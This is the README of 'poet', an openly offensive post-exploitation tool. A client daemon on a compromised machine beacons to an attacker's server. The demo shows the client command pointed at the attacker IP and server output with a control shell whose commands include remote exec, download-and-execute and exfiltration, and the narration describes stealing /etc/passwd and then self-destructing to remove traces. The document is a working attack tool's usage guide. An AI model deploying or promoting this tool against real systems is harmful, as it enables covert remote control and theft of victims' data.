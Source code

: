 # poet

A simple POst-Exploitation Tool.

## overview

The client program runs on the target machine and is configured with an IP
address (the server) to connect to and a frequency to connect at. If the server
isn't running when the client tries to connect, the client quietly sleeps and
tries again at the next interval. If the server is running however, the
attacker gets a control shell to control the client and perform various actions
on the target including:

- reconnaissance
- remote shell
- file exfiltration
- download and execute
- self destruct

## demo

This is just a small sample of what Poet can do.

The scenario is, an attacker has gotten access to the victim's machine and
downloaded and executed the client.  She does not have
the server running at this point, but it's ok, the client waits patiently.
Eventually the attacker is ready and starts the server, first starting a shell
and executing `uname -a`, then exfiltrating `/etc/passwd`. Then she exits
and detaches from the client, which continues running on the target waiting for
the next opportunity to connect to the server. Later, she connects again,
self-destructing the client, removing all traces from the target.

Victim's Machine (5.4.3.2):

```
$ ./poet-client 1.2.3.4 10  # poet-client daemonizes, so there's nothing to see
```

> Warning: After running this command, you'll need to either run `selfdestruct`
> from the server, or kill the `poet-client` process to stop the client.

Attacker's Machine (1.2.3.4):

```
$ sudo ./poet-server

                          _
        ____  ____  ___  / /_
       / __ \/ __ \/ _ \/ __/
      / /_/ / /_/ /  __/ /
     / .___/\____/\___/\__/
    /_/

[+] (06/28/15 03:58:42) Dropping privileges to uid: 501, gid: 20
[+] (06/28/15 03:58:42) Poet server started (port 443)
[+] (06/28/15 03:58:50) Connected By: ('127.0.0.1', 54494) -> VALID
[+] (06/28/15 03:58:50) Entering control shell
Welcome to posh, the Poet Shell!
Running `help' will give you a list of supported commands.
posh > help
Commands:
  chint
  dlexec
  exec
  exfil
  exit
```